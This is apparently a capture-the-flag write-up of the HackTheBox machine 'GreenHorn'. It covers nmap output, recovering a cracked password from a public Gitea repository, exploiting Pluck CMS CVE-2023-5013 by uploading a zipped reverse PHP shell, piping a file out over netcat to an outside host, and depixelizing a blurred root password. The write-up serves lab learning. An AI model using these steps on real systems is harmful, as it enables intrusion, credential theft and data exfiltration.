



# NMAP

```shell
nmap -sC -sV -Pn -p- 10.10.11.25 -T5
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-23 16:39 EDT
Nmap scan report for 10.10.11.25
Host is up (0.055s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 57:d6:92:8a:72:44:84:17:29:eb:5c:c9:63:6a:fe:fd (ECDSA)
|_  256 40:ea:17:b1:b6:c5:3f:42:56:67:4a:3c:ee:75:23:2f (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://greenhorn.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
3000/tcp open  http    Golang net/http server
|_http-title: GreenHorn
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Content-Type: text/html; charset=utf-8
|     Set-Cookie: i_like_gitea=ff84cb7e0ef79a8e; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=zqYhoQggxIoXQeP3YKys8OVfYmU6MTc0NTQ0MDgxNjIzMTY4MzYwMA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Wed, 23 Apr 2025 20:40:16 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-auto">
|     <head>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <title>GreenHorn</title>
|     <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR3JlZW5Ib3JuIiwic2hvcnRfbmFtZSI6IkdyZWVuSG9ybiIsInN0YXJ0X3VybCI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvIiwiaWNvbnMiOlt7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvYXNzZXRzL2ltZy9sb2dvLnBuZyIsInR5cGUiOiJpbWFnZS9wbmciLCJzaXplcyI6IjUxMng1MTIifSx7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvYX
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Allow: HEAD
|     Allow: HEAD
|     Allow: GET
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Set-Cookie: i_like_gitea=0a08b57a9973945f; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=97k3mDkdXv0AuVJ5u9Xirk78PY46MTc0NTQ0MDgxNjQ2NDMxMDc4MQ; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Wed, 23 Apr 2025 20:40:16 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.95%I=7%D=4/23%Time=6809502E%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(GetRequest,1000,"HTTP/1\.0\x20200\x20OK\r\nCache-Control:
SF:\x20max-age=0,\x20private,\x20must-revalidate,\x20no-transform\r\nConte
SF:nt-Type:\x20text/html;\x20charset=utf-8\r\nSet-Cookie:\x20i_like_gitea=
SF:ff84cb7e0ef79a8e;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nSet-Cookie
SF::\x20_csrf=zqYhoQggxIoXQeP3YKys8OVfYmU6MTc0NTQ0MDgxNjIzMTY4MzYwMA;\x20P
SF:ath=/;\x20Max-Age=86400;\x20HttpOnly;\x20SameSite=Lax\r\nX-Frame-Option
SF:s:\x20SAMEORIGIN\r\nDate:\x20Wed,\x2023\x20Apr\x202025\x2020:40:16\x20G
SF:MT\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en-US\"\x20class=\"theme-
SF:auto\">\n<head>\n\t<meta\x20name=\"viewport\"\x20content=\"width=device
SF:-width,\x20initial-scale=1\">\n\t<title>GreenHorn</title>\n\t<link\x20r
SF:el=\"manifest\"\x20href=\"data:application/json;base64,eyJuYW1lIjoiR3Jl
SF:ZW5Ib3JuIiwic2hvcnRfbmFtZSI6IkdyZWVuSG9ybiIsInN0YXJ0X3VybCI6Imh0dHA6Ly9
SF:ncmVlbmhvcm4uaHRiOjMwMDAvIiwiaWNvbnMiOlt7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm
SF:4uaHRiOjMwMDAvYXNzZXRzL2ltZy9sb2dvLnBuZyIsInR5cGUiOiJpbWFnZS9wbmciLCJza
SF:XplcyI6IjUxMng1MTIifSx7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvYX")
SF:%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text
SF:/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20R
SF:equest")%r(HTTPOptions,1A4,"HTTP/1\.0\x20405\x20Method\x20Not\x20Allowe
SF:d\r\nAllow:\x20HEAD\r\nAllow:\x20HEAD\r\nAllow:\x20GET\r\nCache-Control
SF::\x20max-age=0,\x20private,\x20must-revalidate,\x20no-transform\r\nSet-
SF:Cookie:\x20i_like_gitea=0a08b57a9973945f;\x20Path=/;\x20HttpOnly;\x20Sa
SF:meSite=Lax\r\nSet-Cookie:\x20_csrf=97k3mDkdXv0AuVJ5u9Xirk78PY46MTc0NTQ0
SF:MDgxNjQ2NDMxMDc4MQ;\x20Path=/;\x20Max-Age=86400;\x20HttpOnly;\x20SameSi
SF:te=Lax\r\nX-Frame-Options:\x20SAMEORIGIN\r\nDate:\x20Wed,\x2023\x20Apr\
SF:x202025\x2020:40:16\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequ
SF:est,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/pla
SF:in;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Reque
SF:st");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 73.51 seconds
```

Add domain to the `/etc/hosts` file
``` bash
echo '10.10.11.25 greenhorn.htb' | sudo tee /etc/hosts
```
Opening the website and looking around we can see that it uses the `Pluck CMS` version `4.7.18`



Also we can see a Gitea instance running of port 3000. While checking the gitea instance we found that there is a public repo with a password hash



We can find the password at `GreenHorn/data/settings/pass.php`
```php
<?php
$ww = 'd5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163';
?>
```

The cracked password is `iloveyou1`
# Foothold
## Vulnerability Search
Source  | Link
------------- | -------------
NIST  | https://nvd.nist.gov/vuln/detail/CVE-2023-5013
Exploit  | https://www.exploit-db.com/exploits/51592

To use this exploit we need to create a reverse php shell and zip it.


After uploading the shell.zip in the install module tab we get the reverse shell back.




Looking around in the machine we can find the user `junior`. In his directory we can see the flag and a file name `Using OpenVAS.pdf`. Let' try to switch to that user using the cracked password.


Move the file over to our machine

```bash
cat 'Using OpenVAS.pdf' | nc 10.10.14.17 4445
```
Inside the pdf we find a pixelated password of the root user.


To reverse the pixelated image we can use the https://github.com/spipm/Depixelization_poc github.
```bash
python3 depix.py -p ../assets/pix_pass.png -s ./images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png -o ../assets/depix_pass.png
```


So the root password is `sidefromsidetheothersidesidefromsidetheotherside`


